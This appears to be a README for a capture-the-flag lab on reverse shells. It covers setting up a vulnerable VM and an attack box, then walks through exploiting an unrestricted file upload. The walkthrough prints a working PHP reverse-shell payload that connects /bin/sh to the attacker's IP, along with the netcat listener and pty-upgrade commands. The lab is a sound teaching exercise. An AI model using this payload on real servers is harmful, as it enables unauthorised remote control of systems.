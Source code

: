 # Reverse Shell CTF
<h1>Vulnerable Machine Setup</h1>

<h2>VM</h2>
Create an Ubuntu Server VM (It could work with any debian I just havent tested)

<h3>Setting up the Server</h3>

When logged in as a user with root permissions, clone this repository:

``` 
git clone https://github.com/NarcoMarco/ai4
```

Once the repository is finished cloning, Use the following commands to build the CTF challenge.

```
cd ai4
sudo chmod u+x setup.sh
sudo ./setup.sh
```

<h1>Setting up the Attack Box</h1>
<h2>VM</h2>
Create a Debian VM. This could be ubuntu, linux mint, kali linux, etc.
<br>
You could also use another Ubuntu Server VM, and choose to do things that require a web browser from the host machine.
<br>
<br>
Run the following commands in the VM.

```
sudo apt install netcat -y
```

<h1>Completing the CTF Challenge</h1>
<h2>Creating the Reverse Shell php File</h2>
Before we create the file, we need to make note of our Attack Box's ip address. In the Attack Box, write the following command.

```
ip a
```

In the output of this command, we need to find the appropriate IP address. The IP address we are looking for in this case will probably start with 10.13.37.xxx.

Next, we must create the file that will be uploaded to the webserver hosted on the target VM. Replace the {unique_identifier} with something that is specific to you. This is so that if multiple people are attempting the challenge simultaneously, it will not stop other people from completing the challenge. This file should be created on whatever system will access a web browser so it can be uploaded to the webserver.

```
nano reverse_shell_{unique_identifier}.php
```

Inside this file, we will add the following, replacing {ip_address} with the ip address that you noted down previously.

```
<?php
$ip = '{ip_address}';
$port = 5555;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

<h2>Preparing for the Reverse Shell</h2>
Before we upload the script to the web server, we need to tell our Attack Box to listen for the connection that the script will trigger.

```
nc -nvlp 5555
```
This command will tell your system to listen for incoming Reverse Shell connections on port 5555. This means that when the file upload triggers the Reverse Shell, it will connect to your computer.

<h2>Uploading the File and Starting the Reverse Shell</h2>
To access the file upload webpage, we will use a web browser and navigate to:

```
http://{server_ip_address}/upload.php
```
Replace {server_ip_address} with the IP address of the vulnerable machine. In the case that you are doing this challenge in the Tech Lab, the ip_address you will use is:

```
10.13.37.243
```

On this website, press the upload button, and select the previously created reverse_shell_{unique_identifier}.php file. Click the button at the end to commit the file to be uploaded.
<br>
<br>
After the file has been uploaded, we need to navigate to the uploaded file using our web browser to trigger the script. To do this, navigate to this web address:

```
http://{server_ip_address}/uploads/reverse_shell_{unique_identifier}.php
```
Again, replace the {server_ip_address} with the IP address of the vulnerable machine, and the {unique_identifier} with the one you chose earlier.

<h2>Using the Reverse Shell</h2>
At this point, you should see a line of text on the Attack Box that says that the connection was successful. You can now execute commands on the Vulnerable Machine.
<br>
<br>
You may notice that you do not have any prompt for the terminal. This can be fixed by using python3 to summon bash, the default shell.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

You will now be able to see that you are in the directory:
```
/var/www/html/uploads
```

There is a folder located in the root (/) directory. In this folder, you will find a number of files. The newest file contains the password to a python file in /var/www/html. 

```
Hint: The ls command has the options -t for time (newest first), and -r for reverse.
```

Once you have the correct password, run the python file in /var/www/html/uploads, and when it prompts you for the password, input the password that you found. If the password is correct, it will give you the flag.
